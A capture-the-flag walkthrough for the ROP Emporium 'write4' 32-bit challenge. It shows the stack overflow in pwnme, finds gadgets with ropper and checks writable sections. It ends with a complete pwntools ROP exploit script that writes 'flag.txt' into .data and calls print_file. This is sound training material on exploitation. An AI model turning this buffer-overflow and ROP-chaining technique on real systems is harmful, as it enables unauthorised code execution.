 # write4 - 32 Bit
Program execution:
```
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> <input_here>
```
Run checksec: `checksec ./write432`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Again, `main` call `pwnme`, but this time `pwnme` is in an external file, which must be the given libwrite432.so.

Disassembling libwrite432.so shows that just like in the past challenges, `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `ebp-0x28`:
```assembly
sub     esp, 0x4
push    0x200 {var_34}
lea     eax, [ebp-0x28 {var_2c}]
push    eax {var_2c} {var_38}
push    0x0
call    read
```

We also find the implementation of a `print_file` function which was in the binary's GOT:
```c
int32_t print_file(int32_t arg1)

00000775  int32_t eax = fopen(arg1, data_84b)
000007b1  if (eax != 0)
000007b1      void var_31
000007b1      fgets(&var_31, 0x21, eax)
000007c0      puts(&var_31)
000007e2      return fclose(eax)
00000793  printf("Failed to open file: %s\n", arg1)
000007a0  exit(status: 1)
000007a0  noreturn
```

This function will print a file specified by the string argument (address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z write432` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000005d0 0x080485d0 11  12   .rodata ascii nonexistent
```
This means we will need to store a "flag.txt" string somewhere where we know the address (so stack won't work). This area of memory will also need to be writeable. We can use `readelf` to view a list of program segments and their accessibility flags.
`readelf -S write432`:
```
There are 30 section headers, starting at offset 0x17a4:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00003c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481e8 0001e8 0000b0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          08048298 000298 00008b 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048324 000324 000016 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804833c 00033c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804835c 00035c 000008 08   A  5   0  4
  [10] .rel.plt          REL             08048364 000364 000018 08  AI  5  23  4
  [11] .init             PROGBITS        0804837c 00037c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483a0 0003a0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483e0 0003e0 000008 08  AX  0   0  8
  [14] .text             PROGBITS        080483f0 0003f0 0001c2 00  AX  0   0 16
  [15] .fini             PROGBITS        080485b4 0005b4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485c8 0005c8 000014 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080485dc 0005dc 000044 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048620 000620 000114 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000211 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 00169d 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```
We're interested in the sections with the `W` flag (writable). `.data` is as good as any and putting data there is the least likely to cause issues. To be safe we can use `objdump` to view a hexdump of that section and confirm there is no important data we are at risk of overwriting:
`objdump -s -j .data write432`:
```
write432:     file format elf32-i386

Contents of section .data:
 804a018 00000000 00000000
```
So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation).
`ropper -f write432 --search 'mov [???], ???'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???], ???

[INFO] File: write432
0x08048543: mov dword ptr [edi], ebp; ret;
```
So we have 1 gadgets that lets us move the value in `ebp` into the address specified by the value of `edi`. So now we need gadgets to pop data off the stack into `ebp` and `edi`
`ropper -f write432 --search 'pop edi; pop ebp;'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop edi; pop ebp;

[INFO] File: write432
0x080485aa: pop edi; pop ebp; ret;
```
Coincidentally we have a gadget that will let us do that exactly.
Since we can only move 4 bytes at a time, we will have to do 3 moves. One for "flag", one for ".txt" and one for "\x00\x00\x00\x00" so that our string ends with a null terminator.
Each time we write 4 bytes, remember we need to offset the .data address to write to, by 4.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./write432"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
	gdb.attach(p, '''break main''')

data_addr = 0x0804a018
mov_ptr_edi_ebp_addr = 0x08048543 # mov dword ptr [edi], ebp; ret;
pop_edi_ebp_addr = 0x080485aa 	  # pop edi; pop ebp; ret;

p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)

for i, string in enumerate([b'flag', b'.txt', b'\x00'*4]):
	# build our string, 4 bytes at a time
	payload += p32(pop_edi_ebp_addr)
	payload += p32(data_addr + i*4)
	payload += string
	payload += p32(mov_ptr_edi_ebp_addr)

# with our .data set up, we can call print_file
payload += p32(elf.symbols['print_file'])
payload += b'A' * 4
payload += p32(data_addr)

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
